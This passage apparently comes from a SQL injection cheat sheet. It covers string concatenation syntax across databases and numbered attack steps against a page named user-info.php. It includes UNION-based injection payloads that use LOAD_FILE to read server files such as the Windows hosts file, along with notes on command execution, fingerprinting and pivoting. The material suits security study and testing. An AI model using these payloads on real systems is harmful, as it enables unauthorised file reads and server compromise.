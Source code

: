 ### String concatenation

You can concatenate together multiple strings to make a single string.
|-|-|
|-|-|
|Oracle |`'foo'||'bar'`|
|Microsoft | 'foo'+'bar'|
|PostgreSQL | 'foo'||'bar'|
|MySQL | 'foo' 'bar' [Note the space between the two strings] CONCAT('foo','bar')|

## 10. Attempt to read files from server

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (relative path):
' union select null, LOAD_FILE('../README') AS username, null, null--

Value (absolute path):
' union select null, LOAD_FILE('..\\..\\..\\..\\WINDOWS\\system32\\drivers\\etc\\hosts') AS username, null, null--
' union select null, LOAD_FILE('..\\..\\..\\..\\WINDOWS\\inf\\cpu.inf') AS username, null, null--
```

## 11. Attempt to upload files to server

## 12. Attempt to execute commands. This is easier on SQL Server 2000 and 2005. MySQL has limited system command abilities. SQL Server 2008 disables system commands by default and requires them to be enabled.

## 13. Attempt to determine database computer name, IP address, username, version, etc.

```SQL
MySQL Functions:
VERSION() - MySQL server version
USER() - Database user issuing query
DATABASE() - Database on server against which query is running
```

## 14. Attempt to pivot to database server level. This will largely depend on either being able to execute system commands via the database server or upload files to the file system. Uploading files would allow web application pages to be uploaded which can contain system calls.

---